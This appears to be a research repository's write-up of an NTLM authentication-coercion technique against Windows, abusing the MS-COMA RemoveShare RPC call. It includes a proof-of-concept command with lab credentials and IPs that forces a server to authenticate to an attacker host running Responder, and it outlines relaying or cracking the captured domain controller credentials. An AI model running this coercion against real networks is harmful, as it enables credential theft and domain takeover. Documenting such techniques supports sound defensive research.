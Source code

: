 # MS-COMA - Remote call to RemoveShare (opnum 5)

## Summary

 - **Protocol**: [[MS-COMA]: Component Object Model Plus (COM+) Remote Administration Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/c5b1ef02-e8f6-4195-9efe-9667928d1bdd)

 - **Protocol UUID**: 182c40fa-32e4-11d0-818b-00a0c9231c29

 - **Protocol version**: 0.0

 - **SMB Named pipe**: ``

 - **Function name**: [`RemoveShare`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/965f9577-2b5b-48c8-98c3-fdfb5a0365a1)

 - **Function operation number**: `5`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-COMA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/c5b1ef02-e8f6-4195-9efe-9667928d1bdd) protocol (with uuid `182c40fa-32e4-11d0-818b-00a0c9231c29` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-COMA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/c5b1ef02-e8f6-4195-9efe-9667928d1bdd) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-COMA]: Component Object Model Plus (COM+) Remote Administration Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/c5b1ef02-e8f6-4195-9efe-9667928d1bdd) and allows to call RPC functions of this protocol. We will then call the remote [`RemoveShare`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/965f9577-2b5b-48c8-98c3-fdfb5a0365a1) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
RemoveShare('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT RemoveShare(
   [in] LPCWSTR pwszShareName
 );
```

## References

 - Documentation of protocol [MS-COMA]: Component Object Model Plus (COM+) Remote Administration Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/c5b1ef02-e8f6-4195-9efe-9667928d1bdd

 - Documentation of function `RemoveShare`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/965f9577-2b5b-48c8-98c3-fdfb5a0365a1